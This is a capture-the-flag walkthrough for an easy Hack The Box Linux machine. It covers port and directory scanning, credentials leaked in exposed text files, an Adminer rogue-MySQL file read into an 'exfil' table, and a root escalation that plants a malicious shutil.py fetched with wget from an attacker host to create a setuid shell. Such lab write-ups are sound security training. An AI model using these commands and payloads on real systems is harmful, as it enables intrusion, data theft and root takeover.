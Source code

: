 
## ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
**Tags:** `ftp`, `adminer`, `mysql`, `pythonpath`, `privesc`, `path hijack`

---

## 📡 Recon

### Full TCP Port Scan

```bash
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.10.187
```

### Service and Script Scan

```bash
nmap -p 21,22,80 -sC -sV -oA scans/nmap-tcpscripts 10.10.10.187
```

---

## 🌐 Web Enum [HTTP](HTTP.md)

### robots.txt

```bash
curl http://10.10.10.187/robots.txt
```

- Found `/admin-dir` → 403 Forbidden
- Mention of username: **waldo**

### Gobuster on `/`

```bash
gobuster dir -u http://10.10.10.187 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php -t 20 -o scans/gobuster-root-medium-php
```

### Gobuster on `/admin-dir`

```bash
gobuster dir -u http://10.10.10.187/admin-dir \
  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
  -x php,txt,zip,html -t 20 -o scans/gobuster-admindir
```

- Found: `contacts.txt`, `credentials.txt`

---

## 📁 Sensitive Files

### contacts.txt

```bash
curl http://10.10.10.187/admin-dir/contacts.txt
```

### credentials.txt

```bash
curl http://10.10.10.187/admin-dir/credentials.txt
```

- FTP creds: `ftpuser : %n?4Wz}R$tTF7`

---

## 📤 FTP Access

```bash
wget --user ftpuser --password '%n?4Wz}R$tTF7' -m ftp://10.10.10.187
```

- Files: `dump.sql`, `html.tar.gz`

### Extract and Analyze Code

```bash
tar -xzf html.tar.gz
```

Look for:
- `utility-scripts/`
- `w4ld0s_s3cr3t_d1r/`

#### Database Credentials Found

From `index.php` / `db_admin.php`:
```php
$servername = "localhost";
$username = "waldo";
$password = "]F7jLHw:*G>UPrTo}~A\"d6b";  # backup creds
$password = "&<h5b~yK3F#{PaPB&dA}{H>";  # live creds
```

---

## 💽 Adminer Exploit for File Read

Visit:
```text
http://10.10.10.187/utility-scripts/adminer.php
```

### Setup Local MySQL for Remote Read

```sql
GRANT ALL PRIVILEGES ON *.* TO root@'10.10.10.187' IDENTIFIED BY '0xdf' WITH GRANT OPTION;
```

```sql
CREATE DATABASE pwn;
USE pwn;
CREATE TABLE exfil (data VARCHAR(256));
```

### In Adminer

Connect to local MySQL using:
- Host: your IP
- User: `root`
- Pass: `0xdf`
- DB: `pwn`

Then execute:
```sql
LOAD DATA LOCAL INFILE '/var/www/html/index.php' 
INTO TABLE exfil
FIELDS TERMINATED BY "\n";
```

View results:
```sql
SELECT * FROM exfil;
```

---

## 🔑 SSH as Waldo

```bash
sshpass -p '&<h5b~yK3F#{PaPB&dA}{H>' ssh waldo@10.10.10.187
```

✅ Grab `user.txt`

---

## 🧑‍🔧 Privilege Escalation: Python Path Hijack

### Check Sudo Rights

```bash
sudo -l
```

- Can run: `/opt/scripts/admin_tasks.sh` with `SETENV`
- Calls: `/opt/scripts/backup.py` → uses `shutil`

### Exploit Plan

1. Create malicious `shutil.py` in writable dir.
2. Set `PYTHONPATH` to load it.
3. Hijack `make_archive()` to run as root.

### Payload: `shutil.py`

```python
#!/usr/bin/python3
import os

def make_archive(a, b, c):
    os.system("cp /bin/bash /var/tmp/rootbash; chmod +s /var/tmp/rootbash")
```

### Upload & Trigger

```bash
cd /var/tmp
wget http://<your-ip>/shutil.py
sudo PYTHONPATH=/var/tmp /opt/scripts/admin_tasks.sh 6
```

### Spawn Root Shell

```bash
/var/tmp/rootbash -p
```

✅ Grab `root.txt`